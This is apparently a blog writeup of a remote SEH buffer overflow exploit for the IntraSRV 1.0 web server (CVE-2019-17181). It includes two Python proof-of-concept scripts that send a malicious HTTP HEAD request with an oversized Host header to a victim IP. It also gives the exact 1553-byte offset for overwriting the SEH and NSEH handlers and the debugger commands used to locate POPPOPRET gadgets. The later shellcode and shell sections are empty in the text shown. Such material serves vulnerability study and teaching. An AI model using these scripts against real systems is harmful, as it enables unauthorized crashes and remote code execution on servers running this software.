 ```yaml
---
layout: single
title: Remote SEH overflow with multi-staged jumps - CVE-2019-17181 from IntraSRV 
---
```


Sending a unauthenticated and malicious HTTP HEAD request to the application results in a SEH based buffer overflow. This exploit utilizes a short JMP which hits a long JMP back 450 bytes which then hits a standard calculator shellcode payload

## IntraSRV webserver 1.0 SEH overflow writeup

```
# Exploit Title: IntraSRV webserver 1.0 SEH overflow writeup
# Date: 10/10/2019
# Exploit Author: x00pwn
# Vendor Homepage: http://www.leighb.com
# Software Link: http://www.leighb.com/intrasrv.htm
# Version: 1.0	
# Tested on: Windows 7
# CVE : CVE-2019-17181
```

## Introduction

This post covers the exploitation of a remote s c h buffer overflow vulnerability in the intrasrv  web server application, the web server application includes this vulnerability when processing HTTP head requests. 

We can start by running the vulnerable application, and attaching it to immunity debugger.

![remotedjmps1.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps1.png)

With our python exploit script, we can start by using a socket connection to send a HTTP request on port 80 to the vulnerable application.  By including a large buffer of A’s,  we can witness the vulnerability taking place via the application crashing, and we see that it is now in a stopped state within our debugger.

```python
#!/usr/bin/python

import socket
from struct import *

victim_host = "10.0.0.161"
victim_port = 80

exploit_payload = "A" * 4000

http_request  = "HEAD / HTTP/1.1\r\n"
http_request += "Host:" + exploit_payload + "\r\n"
http_request += "User-Agent: firefox \r\n"
http_request += "If-Modified-Since: Wed \r\n\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

try:
	print("[*] Intrasrv webserver 1.0 SEH overflow POC\n")
	expl.connect((victim_host, victim_port))
	print("[*] Establishing a connection to the vicitm")
	expl.send(http_request)
	print("[*] Sending the payload")
	expl.close()
except:
	print("[!] Exploit failed to send")
```

![remotedjmps2.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps2.png)

## Calculate the buffer, find POPPOPRET

Now that we know that the application is vulnerable, we need to conduct the stage of exploitation where we calculate the input buffer size, this can be done with the pattern_create  tool from Metasploit

```
└─▪ ./pattern_create.rb -l 4000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7.... and more...

```

Adding this unique string to our request  shows us that the Structured Exception Handler and NSEH has been overwritten with a part of the unique string.

![remotedjmps3.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps3.png)

Now we need to use the mona.py  extension command !mona findmsp  to calculate the size of the input buffer, based on our uniquely generated string that we gave to the application.

![remotedjmps4.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps4.png)

Now we know it only takes 1553 bytes to fill up the input buffer, the next 4 bytes after this will overwrite the SEH handler, and 4 more bytes will overwrite the NSEH handler in the chain also.

Let's now take over the SEH and NSEH handlers with this new knowledge.

```python
#!/usr/bin/python

import socket
from struct import *

victim_host = "10.0.0.161"
victim_port = 80

exploit_payload = "A" * 1553
exploit_payload += "B" * 4
exploit_payload += "C" * 4
exploit_payload += "D" * (2000 - len(exploit_payload))

http_request  = "HEAD / HTTP/1.1\r\n"
http_request += "Host:" + exploit_payload + "\r\n"
http_request += "User-Agent: firefox \r\n"
http_request += "If-Modified-Since: Wed \r\n\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

try:
	print("[*] Intrasrv webserver 1.0 SEH overflow POC\n")
	expl.connect((victim_host, victim_port))
	print("[*] Establishing a connection to the vicitm")
	expl.send(http_request)
	print("[*] Sending the payload")
	expl.close()
except:
	print("[!] Exploit failed to send")
```

![remotedjmps5.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps5.png)

Now we control both the SEH and NSEH handler. Now we want to find a POPPOPRET sequence to escape the SEH chain and get to our shellcode. Use the command `!mona seh -n` to locate POPPOPRETs.

![remotedjmps6.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps6.png)

There are none without null bytes, but sometimes this still works even with a partial POPPOPRET, let's try it and see where the POPPOPRET takes us.

## Implement multiple JMPs



## Obtain a shell
